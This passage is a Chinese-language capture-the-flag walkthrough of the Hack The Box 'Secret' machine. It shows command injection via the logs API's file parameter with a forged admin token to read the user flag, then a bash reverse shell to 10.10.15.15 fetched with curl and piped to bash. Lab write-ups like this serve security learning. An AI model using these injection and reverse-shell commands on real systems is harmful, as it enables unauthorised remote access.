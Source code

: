 正在检查用户 ID

好了，我们是 dasith 用户，让我们看看他们的主文件夹:

![](img/4944d21095f7a6ca5a6155893c0b4670.png)

在用户个人文件夹中查找

# 用户标志

不妨抓住用户标志:

```
┌──(root💀kali)-[~/htb/secret]
└─# curl 'http://secret.htb/api/logs?file=;cat+/home/dasith/user.txt' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTk2Y2RjZTQyNTczNjA0NWMyYjI5NTgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InBlbmNlckB0ZXN0LmNvbSIsImlhdCI6MTYzNzI3MzA5M30.OBy7ffsMnK9IlG1uBm28X4aYbCMw4mgr3kZyFMXDGfE'
<SNIP>
c5d9aea30b9787de4c6776da13f5f57f
```

# 反向外壳

现在让我们得到一个反向 shell，我们可以使用这样一个简单的 shell，并把它放在一个 shell 文件中，这样我们就可以执行它了:

```
┌──(root💀kali)-[~/htb/secret]
└─# cat pencer_shell.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.15.15/1338 0>&1'
```

启动一个 web 服务器，这样我们就可以获取文件，同时启动一个 netcat 监听器来捕获我们的 shell。现在像以前一样作为参数发送:

```
┌──(root💀kali)-[~/htb/secret]
└─# curl 'http://secret.htb/api/logs?file=;curl+http://10.10.15.15/pencer_shell.sh+|+bash' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTk2Y2RjZTQyNTczNjA0NWMyYjI5NTgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InBlbmNlckB0ZXN0LmNvbSIsImlhdCI6MTYzNzI3MzA5M30.OBy7ffsMnK9IlG1uBm28X4aYbCMw4mgr3kZyFMXDGfE'
{"killed":false,"code":1,"signal":null,"cmd":"git log --oneline ;curl http://10.10.15.15/pencer_shell.sh | bash"}
```
